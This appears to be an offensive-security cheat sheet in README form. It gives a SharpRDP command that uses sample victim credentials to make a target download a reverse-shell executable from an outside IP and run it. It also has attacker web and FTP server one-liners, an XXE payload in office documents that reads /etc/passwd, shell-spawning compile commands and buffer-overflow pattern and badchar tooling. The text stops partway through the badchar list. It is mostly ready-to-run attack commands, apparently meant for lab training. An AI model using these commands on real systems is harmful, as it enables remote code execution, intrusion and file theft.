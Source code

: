 To run commands over RDP, without mstsc (command line only) run SharpRDP (CASE-SENSITIVE PAYLOAD):   
`sharprdp.exe computername=targetsrv01 username=corp\victim password=lab command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.55.75/reverseshell-processhellosvchost.exe', 'C:\Windows\Tasks\rsshll.exe'); C:\Windows\Tasks\rsshll.exe"`   

## start webserver
- `python -m SimpleHTTPServer 80`  
- `python3 -m http.server 7331`  
- `php -S 0.0.0.0:8000`  
- `ruby -run -e httpd . -p 9000`  
- `busybox httpd -f -p 10000`  
- `updog` (Allows also file upload!)   

## start FTP server
- Install pyftpdlib  
  `pip install pyftpdlib`  
  Run (-w flag allows anonymous write access)  
  `python -m pyftpdlib -p 21 -w` 

## XXE
- Payload in office document   
  Locate data in the Excel / Word which is parsed by the web app (e.g. by opening the office document in VIM or 7zip) and insert xxe payload:   
  `<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>`   
  Wherever the value is added, replace the value with "&ent;"   

## Compiling
- Compiling a C program:  
  `gcc -static -mpreferred-stack-boundary=2 -o Shell ShellSpawn.c`  
  `gcc -o Shell ShellSpawn.c`


## Buffer Overflows etc.
### Patterns
- Create a unique pattern of 2700 byte:  
  `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`  
- locate a hex offset pattern:  
  `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438 -l 2700`  

### Badchars
- generate all possible hex chars:  
  `cat badchars.py`  
  `#!/usr/bin/python`  
  `import sys`  
  `for x in range(1,256):`  
  `sys.stdout.write("\\x" + '{:02x}'.format(x))`  
- Badchars:  
  Bad characters
  `badchars = (`  
  `"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"`  
  `"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"`  
  `"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"`  
  `"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"`  
  `"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"`  
  `"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"`  
  `"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"`  
  `"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"`  
  `"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"`  
  `"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"`  
  `"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"`  